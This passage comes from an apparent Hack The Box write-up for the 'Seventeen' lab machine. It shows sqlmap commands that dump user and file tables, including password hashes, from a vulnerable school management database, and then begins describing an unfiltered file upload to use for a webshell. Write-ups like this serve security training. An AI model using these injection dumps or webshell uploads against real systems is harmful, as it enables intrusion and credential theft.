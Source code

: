```shell
# +---------+----+--------+---------+----------+----------------------------------------------------+-----------+
# | 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
# | 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
# | 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
# | 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |
# +---------+----+--------+---------+----------+----------------------------------------------------+-----------+
sqlmap -r /tmp/take_exam.request --level=5 --risk=3 -p id --dbms=mysql -D db_sfms -T user --dump
# +---------+---------------+---------------+----------------------------------+------------------+---------------+
# | user_id | status        | lastname      | password                         | username         | firstname     |
# +---------+---------------+---------------+----------------------------------+------------------+---------------+
# | 1       | administrator | Administrator | fc8ec7b43523e186a27f46957818391c | admin            | Administrator |
# | 2       | Regular       | Anthony       | b35e311c80075c4916935cbbbd770cef | UndetectableMark | Mark          |
# | 4       | Regular       | Smith         | 112dd9d08abf9dcceec8bc6d3e26b138 | Stev1992         | Steven        |
# +---------+---------------+---------------+----------------------------------+------------------+---------------+
sqlmap -r /tmp/take_exam.request --level=5 --risk=3 -p id --dbms=mysql -D db_sfms -T storage --dump
# +----------+---------+----------------------+-----------------+----------------------+
# | store_id | stud_no | filename             | file_type       | date_uploaded        |
# +----------+---------+----------------------+-----------------+----------------------+
# | 33       | 31234   | Marksheet-finals.pdf | application/pdf | 2020-01-26, 06:57 PM |
# +----------+---------+----------------------+-----------------+----------------------+
```

## Uploading a webshell

SQLmap derypted a hash, and we can now login as a student, "Kelly Shane":

![][student-portal]

The student "31234" has a message from a priviledged user "Mark" with a link:

> https://mastermailer.seventeen.htb/

File uploading is mentioned too, it may be time to try the famous webshell CVE! The upload form performs:

```
POST /oldmanagement/save_file.php HTTP/1.1
```

There are no filters in SFMS sources and the path can be tampered:


[author-profile]: https://app.hackthebox.com/users/389926
[erms-repo]: https://www.sourcecodester.com/php/15160/simple-exam-reviewer-management-system-phpoop-free-source-code.html
[frontpage]: images/frontpage.png
[erms-sqli]: https://www.exploit-db.com/exploits/50725
[oretnom23]: https://www.google.com/search?q=oretnom23+exam+php
[sfms-admin-login]: images/sfms-admin-login.png
[sfms-sqli]: https://www.exploit-db.com/exploits/48437
[snyk-dca]: https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/
[student-portal]: images/student-portal.png